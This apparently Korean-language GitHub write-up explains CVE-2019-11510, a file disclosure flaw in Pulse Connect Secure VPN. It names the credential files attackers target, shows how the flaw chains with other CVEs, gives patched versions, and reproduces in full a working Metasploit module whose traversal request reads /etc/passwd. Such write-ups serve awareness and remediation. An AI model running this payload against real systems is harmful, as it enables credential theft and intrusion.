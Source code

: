 # CVE-2019-11510

## 개요
[CVE-2019-11510](https://nvd.nist.gov/vuln/detail/CVE-2019-11510)는 상용 VPN solution으로 쓰이는 Pulse Connect Secure(PCS)에서 발견된 임의 파일 노출 취약성이다.  
2019년 4월 초 Las Vegaas에서 열린 *Black Hat*과 *DEF CON* 회의에서 이 주제에 대한 세부사항을 공유한 [*DEVCORE*](https://devco.re/en/) 연구팀의 Orange Tsai와 Meh Chang에 의해 발견되었다.

**CVE-2019-11510**는 보고된 가장 심각한 문제 중 하나로, 이 결함을 통해 인증되지 않은 해커가 취약한 장치에서 발견된  configuration settings와 같은 중요한 정보를 포함한 **모든 파일**의 내용을 읽을 수 있다는 것이다.


## 분석
이 취약점을 통해 해커는 directory traversal sequence가 포함된 악의적인 HTTP 요청을 Uniform Resource Identifier(URI)와 함께 보내 취약 장치의 모든 파일에 접근할 수 있었다. 이것은 해커가 장치의 중요한 정보에 대한 접근 또한 제공하며, 이 공격은 그들이 발견한 다른 취약점들과 연계될 수 있다.

사용자가 VPN의 관리 인터페이스에 로그인하면, 일반 텍스트 암호가 */data/runtime/mtmp/lmdb/data.mdb*에 저장된다. 해커는 위의 방법을 사용하여 파일을 얻고, 사용자의 암호를 추출한 다음 장치에 로그인 할 수 있다. 로그인 후 장치는 관리 웹 인터페이스에서 **command injection 취약점**인 [CVE-2019-11539](https://nvd.nist.gov/vuln/detail/CVE-2019-11539) 에 노출된다.  
또한, 사용자 자격증명을 갖게 되어 인증된 사용자가 악의적인 파일을 업로드 하고 임의 파일을 호스트에 쓸 수 있도록 허용하는 **Network File Share(NFS) 의 취약점**인 [CVE-2019-11508](https://nvd.nist.gov/vuln/detail/CVE-2019-11508)에도 노출된다.

이 취약점은 또한 해커가 캐시된 자격 증명을 찾을 수 없는 경우에도 */data/runtime/mtmp/system*에 접근하여 사용자 및 해시된 암호 목록을 수집하여 충분한 시간과 노력을 통해 해시를 크래킹하여 자격 증명으로 로그인할 수 있다.  

아래 사진은 당시 이 취약점으로 패치가 적용되지 않은 경우 영향을 받을 수 있는 42,000개 이상에 대한 Shodan 검색 결과이다.  
![Shodan](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/images/blog/ShodanMap.png)
이미지 출처: https://www.shodan.io  

## Proof of concept (PoC)
PoC는 2019년 8월 20일에 [Exploit Database](https://www.exploit-db.com/exploits/47297)에 [Alyssa Herrera](https://twitter.com/Alyssa_Herrera_)와 [Justin Wagner](https://twitter.com/0xDezzy)가 작성한 취약성 모듈이 게시되었다.  

<details>
<summary>코드 보기</summary>
<div markdown="1">

```ruby
# Exploit Title: File disclosure in Pulse Secure SSL VPN (metasploit)
# Google Dork: inurl:/dana-na/ filetype:cgi
# Date: 8/20/2019
# Exploit Author: 0xDezzy (Justin Wagner), Alyssa Herrera
# Vendor Homepage: https://pulsesecure.net
# Version: 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
# Tested on: Linux
# CVE : CVE-2019-11510 
require 'msf/core'
class MetasploitModule < Msf::Auxiliary
	include Msf::Exploit::Remote::HttpClient
	include Msf::Post::File
	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Pulse Secure - System file leak',
			'Description'    => %q{
				Pulse Secure SSL VPN file disclosure via specially crafted HTTP resource requests.
        This exploit reads /etc/passwd as a proof of concept
        This vulnerability affect ( 8.1R15.1, 8.2 before 8.2R12.1, 8.3 before 8.3R7.1, and 9.0 before 9.0R3.4
			},
			'References'     =>
			    [
			        [ 'URL', 'http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11510' ]
			    ],
			'Author'         => [ '0xDezzy (Justin Wagner), Alyssa Herrera' ],
			'License'        => MSF_LICENSE,
			 'DefaultOptions' =>
		      {
		        'RPORT' => 443,
		        'SSL' => true
		      },
			))

	end


	def run()
		print_good("Checking target...")
		res = send_request_raw({'uri'=>'/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/'},1342)

		if res && res.code == 200
			print_good("Target is Vulnerable!")
			data = res.body
			current_host = datastore['RHOST']
			filename = "msf_sslwebsession_"+current_host+".bin"
			File.delete(filename) if File.exist?(filename)
			file_local_write(filename, data)
			print_good("Parsing file.......")
			parse()
		else
			if(res && res.code == 404)
				print_error("Target not Vulnerable")
			else
				print_error("Ooof, try again...")
			end
		end
	end
	def parse()
		current_host = datastore['RHOST']

	    fileObj = File.new("msf_sslwebsession_"+current_host+".bin", "r")
	    words = 0
	    while (line = fileObj.gets)
	    	printable_data = line.gsub(/[^[:print:]]/, '.')
	    	array_data = printable_data.scan(/.{1,60}/m)
	    	for ar in array_data
	    		if ar != "............................................................"
	    			print_good(ar)
	    		end
	    	end
	    	#print_good(printable_data)

		end
		fileObj.close
	end
end
```

</details>  

<br>

## 해결 방안
Pulse Secure는 보고된 각 CVE에 대하 정보와 함께 보안 권고사항을 게시했다. 패치 솔루션은 다음과 같다.
|**Version installed**|**Fixed release**|
|:---:|:---:|
|Pulse Connect Secure 9.0RX|Pulse Connect Secure 9.0R3.4 & 9.0R4|
|Pulse Connect Secure 8.3RX|Pulse Connect Secure 8.3R7.1|
|Pulse Connect Secure 8.2RX|Pulse Connect Secure 8.2R12.1|
|Pulse Connect Secure 8.1RX|Pulse Connect Secure 8.1R15.1|


## 시스템 영향 여부 확인  
CVE-2019-11510([Plugin ID 127897](https://www.tenable.com/plugins/nessus/127897))에 대한 직접 공격 검사를 비롯하여 이러한 취약성을 식별하는 Tenable 플러그인 목록이 [여기](https://www.tenable.com/plugins/search?q=cves%3A(%22CVE-2019-11510%22%20OR%20%20%22CVE-2019-11508%22%20OR%20%20%22CVE-2019-11540%22%20OR%20%20%22CVE-2019-11543%22%20OR%20%20%22CVE-2019-11541%22%20OR%20%20%22CVE-2019-11542%22%20OR%20%20%22CVE-2019-11539%22%20OR%20%20%22CVE-2019-11538%22%20OR%20%20%22CVE-2019-11509%22%20OR%20%20%22CVE-2019-11507%22)&sort=&page=1)에 나열되어 있다.


---

## 요약

- 2019년 4월 초 PCS에서 취약점 발견
- CVE-2019-11510 이 가장 중요한 주요 취약점
- 공격 패턴: 취약 시스템 스캔 -> Pulse Secure VPN의 시스템 패스워드 파일을 탈취 -> 성공시 해커는 장치의 인증을 통과하거나 실제 VPN 세션으로 위장할 수 있음
- 현재 취약 버전 업데이트를 통해 대응 가능  

출처 : https://www.tenable.com/blog/cve-2019-11510-proof-of-concept-available-for-arbitrary-file-disclosure-in-pulse-connect-secure
